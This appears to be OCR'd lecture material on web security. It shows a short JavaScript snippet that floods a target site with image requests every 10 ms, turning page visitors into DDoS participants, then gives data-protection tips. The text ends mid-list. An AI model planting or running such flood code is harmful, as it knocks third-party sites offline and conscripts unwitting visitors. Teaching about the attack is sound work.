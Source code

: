 ## Sample Malicious Code

```javascript
    function flood_attack() {
      var TARGET = 'target_website.com'
      var URI = '/index.php?'
      var picture = new Image()
      var rand = Math.floor(Math.random() * 1000)
      picture.src = 'http://'+TARGET+URI+rand+'=val'
    }
    setInterval(flood_attack, 10)
```


## Sample Malicious code, cont'd

  * Creates an image 100 times per second
  * Each visitor of the website containing this code would be a participant to attack to the target_website


## Mechanism

![image of ddos1](../images/ddos1.png) 

## Solution

Depends on how the attacker inserts the code into the page

# Data Protection

## Right Privileges
* Let every user do what they really need not more
* Example in an online store:
  - Salespersons should have read permission to view catalog
  - Market users should have permission to check statistics
  - Developers should have permission to modify pages and web application options

## Deleting Sensitive Info When Not Needed


* Temp and cache files
* If you need it encrypt or move it to a protected area

## Comments

* Do not put comments like `TODO` list in source-code
* Do not comment credentials:
